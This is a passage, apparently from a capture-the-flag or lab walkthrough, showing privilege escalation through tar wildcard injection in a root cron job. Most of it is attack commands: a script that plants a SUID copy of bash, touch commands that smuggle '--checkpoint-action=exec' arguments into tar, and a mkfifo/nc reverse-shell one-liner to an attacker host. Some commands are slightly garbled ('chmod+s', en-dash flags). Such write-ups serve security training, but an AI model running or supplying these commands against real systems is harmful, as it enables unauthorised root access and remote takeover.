 The wildcard used in the script will execute a given command against all files and folders in the `/var/www/html` 
directory, and this can be exploited by adding a `–checkpoint=1` file (to enable the checkpoint function) and a 
`–checkpoint-action=exec=/tmp/shell.sh` file (to specify the action to perform) which will be effectively treated 
as arguments when tar comes across them.

Create a `bash` script which will create SUID binary of bash, naming it `shell.sh`:

```text
#!/bin/bash
cp /bin/bash /tmp/shell && chmod+s /tmp/shell
```

In `tmp`, execute the commands to create the two files (arguments) for `tar`:

    touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
    touch "/var/www/html/--checkpoint=1"

After `cron` has run and has created the shell SUID copy of bash, execute it with the `-p` flag:

    $ /tmp/shell -p
    # whoami
    root

Or create a shell with the infamous one-liner, and set up a listener on port 7777:

```text
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP address attck machine> 7777 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```
